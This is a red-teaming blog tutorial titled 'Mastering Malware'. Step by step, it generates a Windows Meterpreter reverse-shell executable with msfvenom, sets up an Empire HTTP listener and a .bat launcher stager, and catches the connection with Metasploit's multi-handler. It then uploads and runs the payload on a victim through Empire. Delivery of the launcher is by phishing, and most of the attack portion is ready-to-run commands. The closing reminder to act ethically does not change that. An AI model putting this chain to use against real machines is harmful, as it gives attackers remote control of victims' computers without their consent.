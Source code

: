 ```yaml
---
title: "Mastering Malware"
date: 2024-05-16 22:56:24 +0800
categories: [AVEvasion]
tags: [RedTeaming]
---
```


#  Mastering Malware: A Step-by-Step Guide to Using MSFVenom, Empire, and Metasploit 

 In today's digital landscape, cybersecurity professionals must stay ahead of the game to protect their systems and networks. However, understanding offensive tools can also be crucial for defenders. In this guide, we'll delve into the process of creating and running an executable program generated by MSFVenom, sending it to a user via Empire, and then listening for connections using Metasploit's multi-handler. Buckle up as we explore the dark side of cybersecurity!

## Steps:

1. Crafting the Payload with MSFVenom:
   MSFVenom is a powerful tool in the Metasploit framework used for generating payloads. Let's create a basic Windows reverse shell payload using MSFVenom:
   ```bash
   msfvenom -p windows/meterpreter/reverse_http LHOST=<your_IP_address> LPORT=<your_port> -f exe > payload.exe
   ```
   Replace `<your_IP_address>` and `<your_port>` with your actual IP address and desired port number. This command generates an executable file named game3.exe that establishes a reverse HTTP connection to your listener.

   for example:
   ```bash
    msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.1.18 LPORT=4434 -f exe > game3.exe
    ```


2. Setting Up Empire: \
   Empire is a post-exploitation framework that allows you to control compromised systems. Start by launching Empire and setting up a listener:
   ```bash
   sudo ./ps-empire server

   sudo ./ps-empire client
   listeners
   uselistener http
   set Name MyListener
   set Host <your_IP_address>
   set Port <your_port>
   execute
   Empire>usestager windows_launcher_bat
   (Empire: usestager/windows_launcher_bat)>set listener http
   (Empire: usestager/windows_launcher_bat)>execute

   ```
   This sets up an HTTP listener named "MyListener" on your specified IP address and port.

3. Sending the Payload via Empire: \
   Now that Empire is ready, upload and run `(game3.exe)` using empire without any user interaction but before that we have sent the payload `(launcher.bat)` to the target user to get access on the target machine by running the `launcher.bat` file by user. This could be done through various methods like phishing or exploiting vulnerabilities. For demonstration purposes, assume the target has executed our payload.

4. Listening with Metasploit: \
   With the payload executed on the target machine, it's time to catch the incoming connection using Metasploit's multi-handler. Open a new terminal and launch Metasploit:
   ```bash
   msfconsole
   ```
   Inside Metasploit, set up the multi-handler:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_http
   set LHOST 192.168.1.18
   set LPORT 4434
   exploit
   ```
   Metasploit is now waiting for the target machine to connect back to it.
5. Send and run file using Empire : \
   Upload the `game3.exe` file to the victim machine => view agents through `"agents"` command and use `"interact"` command to select you agent \

   ![Mastering Malware](assets/img/mastering-malware/mm-05.png)

   then use `"upload"` command to send the exe file to the victim \
   ![Mastering Malware](assets/img/mastering-malware/mm-05_1.png)
   
   Then run the exe file on victim machine using empire:\
   ![Mastering Malware](assets/img/mastering-malware/mm-05_2.png)

## Conclusion

Understanding how attackers operate is key to defending against them. By walking through the process of creating a payload with `MSFVenom`, sending it via `Empire`, and listening with `Metasploit`, you've gained valuable insights into offensive tactics.\
Remember, always use these tools ethically and with proper authorization. Happy hacking (responsibly)!

## Video Tutorial

Check out the following video for more details:

<iframe width="560" height="315" src="https://www.youtube.com/embed/1HocmYDQxMM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>